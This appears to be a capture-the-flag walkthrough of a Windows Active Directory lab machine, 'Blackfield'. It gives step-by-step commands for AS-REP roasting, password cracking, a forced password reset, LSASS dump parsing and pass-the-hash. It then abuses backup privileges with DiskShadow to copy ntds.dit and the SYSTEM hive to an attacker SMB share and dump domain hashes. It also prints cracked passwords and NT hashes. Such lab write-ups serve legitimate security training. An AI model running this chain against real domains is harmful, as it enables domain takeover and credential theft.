## Enumeration
### NMAP

```bash
nmap -sC -sV -v -T4 -Pn -oN scans/nmap.txt 10.10.10.192
```

```text
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-05 11:47:11Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### SMB

There are a few interesting and non default shares on the target.

```bash
smbclient -N -L //blackfield.local
```

  

Let's look more into the `profiles` share.

```bash
smbclient -U test -N //blackfield.local/profiles\$
```

  

It's a bunch of users. Lets get this into a file to enumerate valid users on the target.

```bash
smbclient -U test -N //blackfield.local/profiles\$ -c ls | awk '{print $1}' > userlist.txt
```

  

### Kerberoast

Let's use `kerbrute` to enumerate valid domain users.

```bash
kerbrute userenum -d blackfield.local --dc blackfield.local evidence/files/userlist.txt
```

  

### ASREPRoast

We get a ticket for the `support` user.

```bash
impacket-GetNPUsers blackfield.local/ -usersfile validusers.txt -format hashcat -outputfile support.kerberoast
```

  

Crack the ticket using `hashcat`.

```bash
hashcat -m 18200 -a 0 support.kerberoast /usr/share/wordlists/rockyou.txt --force
```

  

We get `support`'s password.

```text
support:#00^BlackKnight
```

### Bloodhound

Let's start by dumping domain objects and uploading them to `bloodhound` to find a path forward.

```bash
bloodhound-python -c All -u support -p '#00^BlackKnight' -d blackfield.local -dc dc01.blackfield.local -ns 10.10.10.192
```

  

Once we upload the data to `bloodhound`, if we look at the `support` users First Degree Object Control outbound control rights we can see that we have `Force Change Password` for the `Audit2020` user.

  

### Change Password

We can use `net` to change the `audit2020` password.

```bash
net rpc password audit2020 -U 'blackfield.local/support%#00^BlackKnight' -S blackfield.local

Password123
```

```bash
smbclient -U 'blackfield.local/audit2020%Password123' //blackfield.local/forensic

cd memory_analysis
prompt
resurse

mget *
```

  

```bash
unzip lsass.zip
```

  

## Shell as svc_backup

### LSASS Dump

```bash
pypykatz lsa minidump lsass.DMP > lsass.parsed
```

  

We can format it to make it easier to read.

```bash
cat lsass.parsed | grep NT: -B 3 | grep -v LM | grep -v Domain: > lsass.nt
```

```text
svc_backup:9658d1d1dcd9250115e2205d9f48400d
Administrator:7f1e4ff8c6a8e6b6fcae2d9c0572cd62
```

We can use a pass the hash attack with `evil-winrm` to get a shell.

```bash
evil-winrm -i blackfield.local -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

  

### User.txt

```powershell
cat user.txt; ipconfig
```

  

### Enumeration 

In the `c:\` directory there's a `notes.txt` file.

  

```powershell
whoami /all
```

  

As we can see, we're part of the `Backup Operators` group. We also have `SeBackupPrivilege` and `SeRestorePrivilege`.

## Privilege Escalation

### DiskShadow

```text
set verbose onX
set metadata C:\Windows\Temp\meta.cabx
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

  

Let's upload our `script.txt` file to the target.

```powershell
upload script.txt
```

  

Now we can run it using `diskshadow`.

```powershell
diskshadow /s script.txt
```

  

We can now access the `e:\` drive we specified within the script.

  

Now we can copy back over the `ntds` file from the backup.

```powershell
robocopy /b e:\windows\ntds . ntds.dit
```

  

Now we can copy over the `hklm\system` which we need in order to decrypt the `ntds.dit`.

```powershell
reg save hklm\system c:\windows\temp\system.save
```

Now we can download both files. First setup an SMB server.

```bash
impacket-smbserver -smb2support kali .
```

```powershell
cp system.save \\10.10.16.5\kali
cp ntds.dit \\10.10.16.5\kali
```

We can now extract the hashes.

```bash
impacket-secretsdump -ntds ntds.dit -system system.save LOCAL -outputfile hashes
```

  

```bash
evil-winrm -i blackfield.local -u Administrator -H 184fb5e5178480be64824d4cd53b99ee
```

  

### Root.txt

```powershell
cat root.txt; ipconfig
```

  